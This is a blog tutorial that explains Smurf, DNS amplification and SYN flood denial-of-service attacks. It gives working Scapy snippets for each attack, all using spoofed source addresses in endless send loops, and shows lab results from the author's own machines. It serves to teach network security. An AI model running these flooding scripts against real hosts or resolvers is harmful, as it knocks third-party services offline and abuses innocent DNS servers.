 ```yaml
---
title: "An Introduction to a Few Network Attacks"
date: 2019-10-15
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Amplification
  - ICMP Spoofing
  - SYN Floods
  - Scapy
---
```


# Introduction
In a previous [post][dns], we had a look at spoofing DNS responses, which allowed us to redirect users to a web server running on our machine. In this post, we will look at a few network attacks that can lead to a DoS.

The below section is a basic refresher on ICMP and can be skipped. 

# ICMP
Internet Control Message Protocol (ICMP) is a protocol used primarily to report errors (source quench, unreachable destination, etc.) in sending IP packets. An ICMP packet has the following packet format.

![ICMP-Message-Format](../../assets/images/icmp_format.png)

The two codes relevant to the Smurf attack are:

1. 8 - for echo request message, and
2. 0 - for echo reply message

The above messages are commonly known as the ping messages and are used to test connectivity issues and obtain statistics about the connections of a network. When a host receives an ICMP echo request, it sends back an ICMP echo reply packet to the sender. The sender uses the replies to compute metrics such as the round trip time.  

# Smurf Attack
Since the IP address fields of an ICMP packet can be spoofed, the attacker can send an ICMP request message to the network's broadcast address claiming to be the target, which results in the target receiving the ICMP responses from all the live hosts on the network. If the number of responses is much higher than what the target can handle, it can result in a DoS. This is the idea behind the Smurf attack. 

This is an amplification of the traffic, i.e., for one packet sent by the attacker, the target receives *n* packets, where *n* is the number of hosts that respond. This dramatically improves the attacker's strength in taking the target down.

The following code can be utilized for a smurf attack.

```python
pkt = IP(src = target_ip, dst = broadcast_ip)/ICMP()
while True:
  send(pkt)
```

That's it. The above 3 lines of code are all it takes to simulate a Smurf attack. But most hosts these days are configured not to respond to an ICMP request on the broadcast address. To get over this hurdle, one mechanism is to send each host an invalid packet. On receiving the invalid packet, a host might send back an ICMP response to the target with the details of the error (larger than what attacker sends).

# DNS Amplification
Another way to attack a target is by spoofing DNS queries. Since the size of a DNS query is smaller than the response, the amount of work done by the attacker to send the DNS queries will be significantly lesser than what the target needs to do to process the replies. The following code shows how this can be done.

```python
while True:
  for name_server in g_name_servers:
    ip = IP(src = g_target_ip, dst = name_server)
    udp = UDP(sport=RandShort(), dport=53)
    dns = DNS(rd = 1,
            qd = DNSQR(
              qname = g_domain,
              qtype = "ANY"		# Play around to see which one returns max answer length
            )
          )

    # Create the spoofed DNS query and send it
    pkt = ip/udp/dns
    send(pkt, verbose = False)
```

The above code takes a list of DNS resolvers and queries each one with a spoofed IP address (set to the target). Each DNS resolver then sends the response to the target instead of the attacker. Since the size of the DNS response is much larger than the size of the query, the attacker has the upper hand while trying to overwhelm the target. If the responses are too many, the target will not be able to function, resulting in a DoS.

## DNS Amplification Results
The following image shows the IP address of the attacker (a Raspberry 3B+)

![pi_ifconfig](../../assets/images/syn-flood/pi_ifconfig.png)

and below we can see the target's (my laptop) IP address
![laptop_ipconfig](../../assets/images/syn-flood/laptop_ipconfig.png)

We run the script in the following manner.
![attack](../../assets/images/syn-flood/attack.png)

Looking at the intercepted messages on my laptop, we can see that DNS replies are being received for
queries never sent. We can see that the length of the DNS response is 124 bytes, which is much larger than the query the attacker has sent. 
![wireshark-output](../../assets/images/syn-flood/wireshark-output.png)

# SYN Flood
Moving on to the TCP layer, one attack that can result in a DoS is the SYN flood attack, where an attacker sends a large number of SYNs to various ports of the target and not respond to them. This results in a large number of half-open connections, and before the connections can time out, another SYN is sent to reset the timer. This will eventually lead to a DoS. The following code shows the implementation in python.

```python
# Create the IP layer
ip = IP(src = source_ip, dst = g_target_ip)   # Note that the source_ip can be spoofed

# Create the SYN packet
tcp = TCP(sport=RandShort(), dport=g_dest_ports, flags="S", seq=42)

# Create the packet and continuously send it to all the specified ports
pkt = ip/tcp
while True:
  send(pkt)
```
# SYN Flood Result
The script is run in the following manner.

![syn-flood-pi](../../assets/images/syn-flood/syn-flood-pi.png)

The SYN packets can be seen below.

![syn-flood-wireshark](../../assets/images/smurf/syn-flood-wireshark.png)

To specify more ports to send packets to, use the `-c` flag.


The full scripts are available on my github [page][page].

# Disclaimer
The attacks mentioned on any posts on my website are to be tested at your own risk. Please do not use them without the permission of the target host. I will not be responsible for any damage caused by running them.  

[dns]: https://fsec404.github.io/blog/DNS-hijacking/#results
[page]: https://github.com/venkat-abhi/network-attacks